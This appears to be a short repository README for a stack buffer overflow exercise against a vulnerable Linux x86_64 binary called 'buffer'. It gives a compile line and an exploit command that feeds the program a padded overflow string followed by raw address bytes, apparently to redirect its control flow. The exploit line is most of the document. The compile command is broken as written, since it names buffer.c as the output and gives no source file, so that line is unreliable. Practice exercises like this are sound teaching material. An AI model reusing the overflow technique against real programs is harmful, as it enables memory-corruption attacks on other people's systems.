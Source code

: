 Compile 
gcc -g -o buffer.c 

Exploit 
./buffer `echo -ne "AAAAAAAAAAAAAAAAAAAAAABBBBBBBBCEE\x38\x10\x60"` `echo -ne "\x80\x06\x40"`

Note 
The vulnerable binary for Linux x86_64
